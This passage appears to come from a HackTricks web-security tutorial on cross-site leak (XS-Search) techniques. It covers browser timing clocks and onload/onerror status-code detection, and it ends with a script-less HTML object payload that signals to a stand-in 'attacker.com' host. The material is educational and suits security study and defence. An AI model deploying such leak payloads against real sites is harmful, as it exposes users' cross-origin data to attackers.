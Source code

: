 \
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_content=xs-search) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=xs-search" %}

## **Timing Based techniques**

Some of the following techniques are going to use timing to as part of the process to detect differences in the possible states of the web pages. There are different ways to measure time in a web browser.

**Clocks**: The [performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now) API allows developers to get high-resolution timing measurements.\
There are a considerable number of APIs attackers can abuse to create implicit clocks: [Broadcast Channel API](https://developer.mozilla.org/en-US/docs/Web/API/Broadcast\_Channel\_API), [Message Channel API](https://developer.mozilla.org/en-US/docs/Web/API/MessageChannel), [requestAnimationFrame](https://developer.mozilla.org/en-US/docs/Web/API/window/requestAnimationFrame), [setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout), CSS animations, and others.\
For more info: [https://xsleaks.dev/docs/attacks/timing-attacks/clocks](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/).

## Event Handler Techniques

### Onload/Onerror

* **Inclusion Methods**: Frames, HTML Elements
* **Detectable Difference**: Status Code
* **More info**: [https://www.usenix.org/conference/usenixsecurity19/presentation/staicu](https://www.usenix.org/conference/usenixsecurity19/presentation/staicu), [https://xsleaks.dev/docs/attacks/error-events/](https://xsleaks.dev/docs/attacks/error-events/)
* **Summary**: if trying to load a resource onerror/onload events are triggered with the resource is loaded successfully/unsuccessfully it's possible to figure out the status code.
* **Code example**: [https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)](https://xsinator.com/testing.html#Event%20Handler%20Leak%20\(Script\))

{% content-ref url="cookie-bomb-+-onerror-xs-leak.md" %}
[cookie-bomb-+-onerror-xs-leak.md](cookie-bomb-+-onerror-xs-leak.md)
{% endcontent-ref %}

The code example try lo **load scripts objects from JS**, but **other tags** such as objects, stylesheets, images, audios could be also used. Moreover, it's also possible to inject the **tag directly** and declare the `onload` and `onerror` events inside the tag (instead of injecting it from JS).

There is also a script-less version of this attack:

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```
